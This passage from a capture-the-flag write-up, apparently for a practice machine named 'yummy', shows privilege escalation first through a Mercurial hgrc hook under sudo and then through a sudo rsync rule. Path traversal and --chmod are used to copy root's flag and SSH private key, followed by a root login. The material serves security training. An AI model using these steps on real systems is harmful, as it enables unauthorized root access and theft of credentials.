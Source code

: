 ```console
qa@yummy:~/tmp$ sudo -u dev /usr/bin/hg pull /home/dev/app-production/
abort: Permission denied: '/home/qa/.hg'
```

When running the command, we get a permission denied error so we try another way. From the same documentation, you can also specify the configuration file inside the `.hg` folder per repository. We can create this file in the `/tmp` directory and then try to run our exploit again.

```console
qa@yummy:~/tmp$ mkdir .hg
qa@yummy:~/tmp$ chmod 777 .hg
qa@yummy:~/tmp$ cp ~/.hgrc .hg/hgrc
qa@yummy:~/tmp$ sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```

## Dev to Root
We now have a shell as the `dev` user that can run `rsync` as root. Rsync is a tool for synchronizing files and directories between location.

```console
dev@yummy:~/app-production$ sudo -l
User dev may run the following commands on localhost:
    (root : root) NOPASSWD: /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* /opt/app/
```

We can exploit this by copying the root user's private SSH key. One quick way to read the root flag or root SSH key is using the following command:

```console
dev@yummy:~$ sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/../../../root/root.txt --chmod=777 /opt/app/ && cat /opt/app/root.txt
dev@yummy:~$ sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/../../../root/.ssh/id_rsa --chmod=777 /opt/app/ && cat /opt/app/id_rsa
```

The key element is the `--chmod` flag of the rsync binary. This additional parameter changes the ownership of the copied file. Since we are the `dev` user, all files will be copied under our permissions, so this option lets us change the permission of file we copied from the root directory. Now we can copy the SSH key and login as the root user.

```console
$ chmod 600 id_rsa
$ ssh -i id_rsa root@yummy.htb
root@yummy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@yummy:~# cat root.txt
```